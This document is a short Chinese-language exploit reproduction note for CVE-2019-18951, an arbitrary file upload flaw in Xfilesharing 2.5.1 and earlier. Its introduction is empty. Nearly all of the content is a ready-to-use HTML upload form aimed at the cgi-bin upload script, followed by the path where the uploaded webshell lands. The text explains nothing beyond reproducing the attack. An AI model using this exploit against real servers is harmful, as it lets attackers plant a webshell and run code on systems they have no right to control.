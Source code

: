 ```yaml
---
title: （CVE-2019-18951）Xfilesharing 2.5.1本地文件上传getshell
id: zhfly3284
---
```


# （CVE-2019-18951）Xfilesharing 2.5.1本地文件上传getshell

## 一、漏洞简介

## 二、漏洞影响

Version: <=2.5.1

## 三、复现过程

### 任意文件上传

```
<form action="http://0-sec.org/cgi-bin/up.cgi" method="post" enctype="multipart/form-data">
    <input type="text" name="sid" value="joe">
    <input type="file" name="file">
    <input type="submit" value="Upload" name="submit">
</form> 
```

Shell : http://0-sec.org/cgi-bin/temp/joe/shell.php